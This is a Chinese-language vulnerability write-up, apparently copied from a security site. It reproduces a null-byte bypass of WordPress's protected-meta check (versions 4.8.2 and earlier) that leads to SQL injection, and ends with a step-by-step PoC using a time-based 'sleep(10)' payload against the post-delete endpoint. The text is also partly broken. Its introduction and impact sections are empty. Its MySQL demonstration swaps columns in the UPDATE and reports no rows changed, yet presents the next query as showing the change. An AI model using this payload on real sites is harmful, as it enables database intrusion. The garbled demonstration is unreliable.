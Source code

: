 # Wordpress <= 4.8.2 POST META 校验绕过漏洞

> 原文：[http://book.iwonder.run/0day/Wordpress/17.html](http://book.iwonder.run/0day/Wordpress/17.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 一个 MySQL 的 trick

1). 正常的条件查询语句

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 | _thumbnail_id  | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec) 
```

2). 现在我们将 _thumbnail_id 修改成”\x00_thumbnail_id”

```
mysql> update wp_postmeta set meta_key = concat(0x00,'TESTC') where meta_value = '_thumbnail_id';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0 
```

3). 再次执行第一步的查询

```
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 |  _thumbnail_id | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec) 
```

我们可以发现依然可以查询出修改后的数据。

### POST META 校验绕过

我们来看下检查 meta_key 的代码，文件./wp-includes/meta.php：

```
function is_protected_meta( $meta_key, $meta_type = null ) {
    $protected = ( '_' == $meta_key[0] );
    /**
     * Filters whether a meta key is protected.
     *
     * [@since](/since) 3.2.0
     *
     * [@param](/param) bool   $protected Whether the key is protected. Default false.
     * [@param](/param) string $meta_key  Meta key.
     * [@param](/param) string $meta_type Meta type.
     */
    return apply_filters( 'is_protected_meta', $protected, $meta_key, $meta_type );
} 
```

is*protected_meta 函数只检查了$meta_key 的第一个字符是否以*开头。我们有了 2.1 的 MySQL trick，想要绕过 meta_key 的检查就显得容易多了。

### poc

```
添加自定义字段，meta_key 为’_thumbnail_id’的 meta_value 为’55 %1$%s or sleep(10)#’
在添加自定义栏目/字段时抓包，将 _thumbnail_id 替换为%00_thumbnail_id
访问/wp-admin/edit.php?action=delete&_wpnonce=xxx&ids=55 %1$%s or sleep(10)#，触发 SQL 注入漏洞
参考 
```

